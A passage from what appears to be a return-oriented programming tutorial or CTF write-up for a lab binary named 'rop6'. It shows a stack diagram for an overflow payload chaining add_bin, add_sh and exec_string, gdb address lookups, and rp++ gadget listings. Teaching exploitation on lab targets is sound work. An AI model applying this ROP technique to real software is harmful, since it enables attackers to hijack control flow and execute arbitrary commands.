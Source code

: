 Putting all of it together:

```
high    | <address of exec_string>     |
        | 0x0badf00d                   |
        | 0xcafebabe                   |
        | <address of pop; pop; ret>   |
        | <address of add_sh>          |
        | 0xdeadbeef                   |
        | <address of pop; ret>        |
        | <address of add_bin>         |
        | 0x42424242 (fake saved %ebp) |
        | 0x41414141 ...               |
        |   ... (0x6c bytes of 'A's)   |
        |   ... 0x41414141             |
```

With this diagram in mind, let's figure out the addresses. First the functions:
```
>>> p &exec_string
$1 = (void (*)()) 0x804844d <exec_string>
>>> p &add_bin
$2 = (void (*)(int)) 0x8048461 <add_bin>
>>> p &add_sh
$3 = (void (*)(int, int)) 0x804849c <add_sh>
```
To obtain the gadgets and identify the right one. To do so we could use `dumprop` from PEDA [11], or `rp++` [12]:
```
A total of 162 gadgets found.
0x0804870b: adc al, 0x41 ; ret  ;  (1 found)
0x08048497: add al, 0x00 ; pop edi ; pop ebp ; ret  ;  (1 found)
0x0804830a: add al, 0x08 ; add byte [eax], al ; add byte [eax], al ; jmp dword [0x0804A00C] ;  (1 found)
0x08048418: add al, 0x08 ; add ecx, ecx ; rep ret  ;  (1 found)
0x080483b4: add al, 0x08 ; call eax ;  (1 found)
0x0804843d: add al, 0x08 ; call eax ;  (1 found)
0x080483f1: add al, 0x08 ; call edx ;  (1 found)
0x08048304: add al, 0x08 ; jmp dword [0x0804A008] ;  (1 found)
0x080483b0: add al, 0x24 ; and al, 0xA0 ; add al, 0x08 ; call eax ;  (1 found)
0x080483ed: add al, 0x24 ; and al, 0xA0 ; add al, 0x08 ; call edx ;  (1 found)
0x08048302: add al, 0xA0 ; add al, 0x08 ; jmp dword [0x0804A008] ;  (1 found)
0x080482ff: add bh, bh ; xor eax, 0x0804A004 ; jmp dword [0x0804A008] ;  (1 found)
0x080482fd: add byte [eax], al ; add bh, bh ; xor eax, 0x0804A004 ; jmp dword [0x0804A008] ;  (1 found)
0x0804830c: add byte [eax], al ; add byte [eax], al ; jmp dword [0x0804A00C] ;  (1 found)
0x0804851a: add byte [eax], al ; add byte [eax], al ; leave  ; ret  ;  (1 found)
...
```
In particular we filter by `pop`:
```bash
root@74929f891a04:~# ./rp++ -f rop6 -r 3 | grep pop
0x08048497: add al, 0x00 ; pop edi ; pop ebp ; ret  ;  (1 found)
0x080482f0: add byte [eax], al ; add esp, 0x08 ; pop ebx ; ret  ;  (1 found)
0x080485a1: add byte [eax], al ; add esp, 0x08 ; pop ebx ; ret  ;  (1 found)
0x0804859d: add ebx, 0x00001A63 ; add esp, 0x08 ; pop ebx ; ret  ;  (1 found)
0x080482f2: add esp, 0x08 ; pop ebx ; ret  ;  (1 found)
0x080485a3: add esp, 0x08 ; pop ebx ; ret  ;  (1 found)
0x08048578: fild word [ebx+0x5E5B1CC4] ; pop edi ; pop ebp ; ret  ;  (1 found)
0x08048493: imul ebp, dword [esi-0x3A], 0x5F000440 ; pop ebp ; ret  ;  (1 found)
0x080482f3: les ecx,  [eax] ; pop ebx ; ret  ;  (1 found)
0x080485a4: les ecx,  [eax] ; pop ebx ; ret  ;  (1 found)
0x08048495: mov byte [eax+0x04], 0x00000000 ; pop edi ; pop ebp ; ret  ;  (1 found)
0x080484d3: mov dword [eax], 0x0068732F ; pop edi ; pop ebp ; ret  ;  (1 found)
0x0804849a: pop ebp ; ret  ;  (1 found)
0x080484da: pop ebp ; ret  ;  (1 found)
```